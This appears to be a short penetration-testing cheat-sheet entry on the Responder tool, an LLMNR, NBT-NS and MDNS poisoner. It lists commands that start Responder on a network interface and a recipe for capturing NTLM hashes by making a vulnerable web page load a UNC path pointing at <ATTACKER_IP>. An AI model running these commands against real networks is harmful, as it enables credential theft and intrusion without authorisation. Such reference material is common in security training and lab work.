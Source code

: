 ```yaml
---
title: Responder
desc:  It contains Responder/MultiRelay, an LLMNR, NBT-NS and MDNS poisoner. It will answer to specific NBT-NS (NetBIOS Name Server) queries. It also used to get NTLM hash of administrator user.
tags: [SMB, Windows]
alts: []
website:
render_with_liquid: false
---
```


## Basic

```sh
# Specity the network interface
responder -I eth0
responder -I tun0
```

<br />

## Get NTLM hash

```sh
# Listen
responder -I tun0

# --- Listening ----------------------------------

# Access the target
https://vulnerable.com/index.php?value=//<ATTACKER_IP>/somedir
```